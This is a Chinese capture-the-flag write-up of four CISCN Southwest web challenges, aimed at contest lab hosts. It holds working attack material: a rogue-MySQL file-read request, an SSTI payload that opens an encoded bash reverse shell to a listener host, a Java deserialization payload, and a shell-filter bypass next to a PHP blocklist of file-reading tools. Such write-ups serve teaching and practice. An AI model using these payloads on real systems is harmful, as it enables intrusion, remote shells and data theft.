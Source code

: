 # CISCN西南赛区 WebWriteUp

  
  
&lt;!--more--&gt;  
## weblog  
`/article.php?id=1`存在`sql`注入，注入数据  
找到隐藏路径，可以连接数据库，进行mysql fakeserver任意文件读取  
`/database.php`  
```http  
POST /database.php HTTP/1.1  
Host: 10.1.0.122:82  
Content-Length: 123  
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1  
Origin: http://10.1.0.122:82  
Content-Type: application/x-www-form-urlencoded  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36  
Accept: text/html,application/xhtml&#43;xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Referer: http://10.1.0.122:82/hide/connect_fun_dbs_test_hides.php  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Connection: close  
  
jsonData={&#34;host&#34;:&#34;10.1.0.130&#34;,&#34;port&#34;:3306,&#34;username&#34;:&#34;root&#34;,&#34;password&#34;:&#34;password&#34;}  
```  
读取`flag`文件，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171009709.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171009598.png)
## ezssti  
访问`/hello`点击连接跳转`/destiny`  
直接打ssti  
```java  
%23set(%24e=%22e%22);%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22bash&#43;-c&#43;{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEuMC4xMTkvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}%22)  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171009744.png)
成功反弹`shell`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171010274.png)
## zwxajavaf  
`/backup.zip`下载源码  
存在反序列化  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171011712.png)
直接上传序列化的文件即可，  
利用点  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171011212.png)
payload  
```java  
package com.example.zwxajavaf1;  
  
import java.io.FileOutputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
  
public class JavaPayload{  
    public static void main(String[] args) throws Exception{  
        MyCustomObject myCustomObject = new MyCustomObject();  
        setFieldValue(myCustomObject,&#34;filePath&#34;,&#34;/usr/local/tomcat/webapps/admin_info.txt&#34;);  
        serialize(myCustomObject);  
    }  
    public static void serialize(Object o) throws Exception{  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));  
        oos.writeObject(o);  
    }  
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj, value);  
    }  
}  
```  
上传后得到密码  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171012916.png)
反序列化之后得到密码  
登陆后`rce`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171012248.png)
## ssrf2rce  
访问`/flag.php`  
```  
flag{th1s_is_f4ke_flag}  
  
  
  
  
But,there is something in coooooomand.php~!!  
```  
访问`coooooomand.php`  
```php  
&lt;?php  
function executeCommand($command) {  
    if (preg_match(&#39;/cat| |\\\\|\${IFS}|%09|\$[*@x]|tac|iconv|shuf|comm|bat|more|less|nl|od|sed|awk|perl|python|ruby|xxd|hexdump|string/&#39;, $command)) {  
        return &#34;Hacker!!!&#34;;  
    }  
  
    $output = shell_exec($command);  
    if ($output === null) {  
        return &#34;uhhhh&#34;;  
    }  
  
    return $output;  
}  
  
$command = isset($_GET[&#39;command&#39;]) ? $_GET[&#39;command&#39;] : &#39;&#39;;  
  
if (!empty($command)) {  
    $result = executeCommand($command);  
    echo nl2br(htmlspecialchars($result, ENT_QUOTES, &#39;UTF-8&#39;));  
} else {  
    echo highlight_file(__FILE__, true);  
}  
?&gt;  
```  
进行绕过`/coooooomand.php?command=/bin/ca?$IFS/flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171013698.png)
# fix？？？  
fix ctf rce 绕过 Orz  

---

> Author: N1Rvana  
> URL: http://localhost:1313/ciscn%E8%A5%BF%E5%8D%97%E8%B5%9B%E5%8C%BA-webwriteup/  

